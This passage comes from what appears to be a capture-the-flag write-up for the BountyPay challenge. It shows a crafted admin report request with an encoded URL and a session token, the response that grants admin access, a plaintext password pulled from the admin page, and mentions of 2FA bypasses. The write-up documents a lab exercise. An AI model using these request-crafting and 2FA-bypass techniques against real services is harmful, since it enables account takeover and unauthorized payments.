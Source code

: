 The corresponding request contains that URL in URL-encoded base64 and looks as follows:

```
GET /admin/report?url=Lz90ZW1wbGF0ZVtdPWxvZ2luJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uI3RhYjM%3d HTTP/1.1
Host: staff.bountypay.h1ctf.com
Connection: close
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR1B3NVRQRFYrV01aenlqQ2pWU0lGNUlpYkRlOXlZWk1BR0hvSVg2SUJZVlAya2RZa1IvaFJqQTZldmswcmk0WXptV1VFMmZYRUtMU0lteDNtSFlWNVhuNGdmTnJLSUJsNmZ2MVpBK3diZDNTYWZPVlF3QVQwTnI4eFBseFp1V3ZvcWxzVEdjMUpKWUVxRlZVRmU0YWV0Z2N2bGRRemlKUno0UnFrdEE9
```

Et voila, the response contains another cookie:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 07 Jun 2020 17:42:21 GMT
Content-Type: application/json
Connection: close
Set-Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR1B3NVRQRFYrV01aenlqQ2pWU0lGNUlpYkRlOXlZWk1BR0hvSVg2SUJZVlAya2RZa1IvaFJqQTZldmswcmk0WXptV1VFMmZYRUtMU0lteDNtSFlWNVhuNGdmTlZEWXduMEpHVFlBK3diZDNTYWZPVlF3QVQwTnI4eEtseFpMR2dvdjVnVERjd2Raa0QrRkVNU084WEtkNGY3d1JYbFNkU3k0bzRrdEE9; expires=Tue, 07-Jul-2020 17:42:21 GMT; Max-Age=2592000; path=/
Content-Length: 19

["Report received"]
```

After reloading the page using that cookie, an additional tab got added to the page, containing an admin section with passwords for `brian.oliver` and `marten.mickos`!

{F858479}

### 7. 2FA bypass => bounty payout

Considering Brian Oliver's password we retrieved from the staff's Admin page, it looks like the credentials are valid for `https://api.bountypay.h1ctf.com`. As the objective is to help Marten Mickos pay out bounties, it looks like we're very close to the flag. However, there is one additional bypass needed to complete the task...

Logging in with username `marten.mickos` and password `h&H5wy2Lggj*kKn4OD&Ype` succeeds at `https://api.bountypay.h1ctf.com` (when using the MD5 2FA bypass we used for Brian Oliver) as expected. When loading the transactions for May 2020, an open payment is displayed:

{F858480}

However, it's not as simple as clicking on the `Pay` button. There is another 2FA challenge that needs to be completed:

{F858481}

The 2FA cannot be bypassed with the MD5 method from before, that would have been too easy.

When looking at the 2FA flow, I noticed a strange request:
